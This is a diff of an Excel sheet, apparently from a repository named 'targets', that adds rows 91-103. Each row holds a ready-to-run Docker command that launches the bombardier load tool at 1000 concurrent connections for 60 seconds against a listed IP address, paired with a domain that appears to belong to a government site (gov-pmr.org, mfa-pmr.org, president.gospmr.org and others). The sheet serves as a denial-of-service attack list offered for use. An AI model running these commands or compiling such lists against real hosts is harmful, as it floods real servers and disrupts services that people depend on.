

Before and after one commit to dmitryshagin/targets, an Excel workbook: test.xlsx, sheet Sheet1, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload

```diff
--- a/test.xlsx (sheet Sheet1)
+++ b/test.xlsx (sheet Sheet1)
+row 91: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 176.99.13.12&& sleep 5; | 176.99.13.12 | mopmr.org
+row 92: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 176.99.13.17&& sleep 5; | 176.99.13.17 | mopmr.org
+row 93: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 217.19.209.184&& sleep 5; | 217.19.209.184 | vspmr.org
+row 94: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 217.19.211.152&& sleep 5; | 217.19.211.152 | mfa-pmr.org
+row 95: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 217.19.211.154&& sleep 5; | 217.19.211.154 | mfa-pmr.org
+row 96: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 217.19.211.155&& sleep 5; | 217.19.211.155 | mfa-pmr.org
+row 97: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 217.19.211.154&& sleep 5; | 217.19.211.154 | president.gospmr.org
+row 98: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 217.19.211.155&& sleep 5; | 217.19.211.155 | president.gospmr.org
+row 99: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 217.19.216.168&& sleep 5; | 217.19.216.168 | president.gospmr.org
+row 100: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 185.92.75.161&& sleep 5; | 185.92.75.161 | gov-pmr.org
+row 101: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 185.92.75.33&& sleep 5; | 185.92.75.33 | gov-pmr.org
+row 102: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 94.103.10.172&& sleep 5; | 94.103.10.172 | gov-pmr.org
+row 103: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 94.103.9.191&& sleep 5; | 94.103.9.191 | gov-pmr.org
```
